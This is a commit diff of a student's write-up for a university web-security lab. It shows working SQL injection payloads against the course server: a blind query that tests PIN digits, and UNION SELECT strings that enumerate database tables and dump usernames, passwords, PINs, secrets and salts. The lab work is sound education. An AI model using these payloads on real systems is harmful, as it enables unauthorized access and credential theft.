

Before and after one commit to pokusew/fel-kbe-web-app-security-lab, a Markdown page: SQL-Injection-Solution.md, 2 parts joined by grey strips. Shown: that part at 97% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Task 2: Fix typo

````diff
--- a/SQL-Injection-Solution.md
+++ b/SQL-Injection-Solution.md
@@ -37,7 +37,7 @@ is 0,..,9).
 ')) OR 1 = 1 AND username = 'endlemar' AND pin LIKE '%<number>%' --
 ```
 
-That meant that there is only `4! = 16` possible PINs. However, I constructed another queries to find out the digits
+That meant that there is only `4! = 16` possible PINs. However, I constructed additional queries to find out the digits'
 relative precedence to each other (the condition evaluated to TRUE when `<i>` preceded `<j>`).
 
 ```
@@ -94,4 +94,34 @@ And to my pleasant surprise, the server responded with a highlighted source code
 After a quick look, I figured it must be the same index.php that is actually running on the server.
 
 **Note 3:** In fact, no login is needed to access https://kbe.felk.cvut.cz/index.php?open=index.php.
-**Note 4:** The code confirms my suspicions from [Task 3's Side note](#side-note).
+**Note 4:** The code (line 67) confirms my suspicions from [Task 3's Side note](#side-note).
+
+The next feature I noticed was the pagination mechanism of messages which was using `offset` query parameter.
+By looking into the code I quickly constructed offset values that helped me obtain the names of the database tables and
+their column names:
+
+```
+0 UNION SELECT table_name, 1 FROM information_schema.tables
+0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'users'
+0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'messages'
+0 UNION SELECT column_name, 1 FROM information_schema.columns WHERE table_name = 'codes'
+
+0 UNION SELECT CONCAT(username, '\t', password, '\t', pin, '\t', secret, '\t', salt), 1 FROM users
+0 UNION SELECT CONCAT(username, '\t', base64_message_xor_key, '\t', date_time), 1 FROM messages
+```
+
+The database has 3 tables with the following columns:
+
+* users
+	* username
+	* password
+	* pin
+	* secret
+	* salt
+* messages
+	* username
+	* base64_message_xor_key
+	* date_time
+* codes
+	* username
+	* aes_encrypt_code
````
